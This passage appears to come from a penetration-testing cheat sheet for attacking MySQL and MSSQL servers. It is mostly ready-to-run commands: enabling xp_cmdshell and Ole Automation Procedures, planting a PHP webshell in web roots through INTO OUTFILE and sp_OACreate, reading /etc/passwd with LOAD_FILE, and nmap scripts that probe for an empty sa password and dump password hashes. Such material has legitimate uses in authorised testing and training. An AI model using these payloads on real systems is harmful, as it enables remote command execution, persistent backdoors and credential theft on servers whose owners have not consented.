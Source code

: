 - Enable xp_cmdshell
```
EXECUTE sp_configure 'show advanced options', 1
RECONFIGURE
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE
```

- Write Files
```
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
show variables like "secure_file_priv"; = read/write 
```

- Enable Ole Automation Procedures
```
sp_configure 'show advanced options', 1
RECONFIGURE
sp_configure 'Ole Automation Procedures', 1
RECONFIGURE
```

- Read files
```
select LOAD_FILE("/etc/passwd");
```

### MSSQL 
- 1433
- script
  - --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER 
  - metasploit:  mssql_ping 

- Commands
  - sqlcmd
```
master:             info about instance
msdb:               for SQL server agent
model:              template
resource:           read-only db
tempdb:             temporary files
select name from sys.databases
```

- [Queries](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

**- Create file**
```
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
```

